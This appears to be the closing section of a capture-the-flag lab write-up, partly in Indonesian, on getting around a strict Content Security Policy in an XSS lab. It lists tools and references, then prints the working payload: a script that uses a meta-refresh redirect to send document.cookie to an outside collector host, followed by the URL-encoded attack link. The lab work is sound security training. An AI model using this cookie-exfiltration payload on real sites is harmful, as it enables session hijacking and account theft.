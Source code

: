 #### Tools
- **CSP Evaluator**: https://csp-evaluator.withgoogle.com/
- **CSP Scanner**: https://cspscanner.com/
- **Burp Suite**: For intercepting and modifying requests
- **URL Encoder**: https://www.urlencoder.org/

#### Documentation
- **MDN CSP**: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- **CSP Spec**: https://www.w3.org/TR/CSP3/
- **OWASP XSS**: https://owasp.org/www-community/attacks/xss/

#### Practice Labs
- **PortSwigger Web Security Academy**: https://portswigger.net/web-security
- **HackTheBox**: https://www.hackthebox.com/
- **TryHackMe**: https://tryhackme.com/

---

## 📝 Summary

### Lab Solution yang Berhasil
**Teknik**: Meta Refresh Redirect

**Payload:**
```javascript
<script>
var meta = document.createElement('meta');
meta.httpEquiv = 'refresh';
meta.content = '0;url=https://eqh42jmm.xssy.uk/?c='+document.cookie;
document.head.appendChild(meta);
</script>
```

**URL:**
```
https://pzcihwu2.xssy.uk/target.ftl?name=%3Cscript%3E%0Avar%20meta%20%3D%20document.createElement%28%27meta%27%29%3B%0Ameta.httpEquiv%20%3D%20%27refresh%27%3B%0Ameta.content%20%3D%20%270%3Burl%3Dhttps%3A%2F%2Feqh42jmm.xssy.uk%2F%3Fc%3D%27%2Bdocument.cookie%3B%0Adocument.head.appendChild%28meta%29%3B%0A%3C%2Fscript%3E
```

**Result**: Flag `zsunagkx` berhasil di-exfiltrate!

---

### Key Lessons Learned

1. **Navigation bypass CSP** karena `navigate-to` jarang digunakan
2. **Meta refresh** adalah teknik paling reliable untuk strict CSP
3. **Testing vs Production** - Flag test berbeda dengan flag victim
4. **URL encoding** penting untuk menghindari character issues
5. **Server logging** harus siap sebelum testing payload

---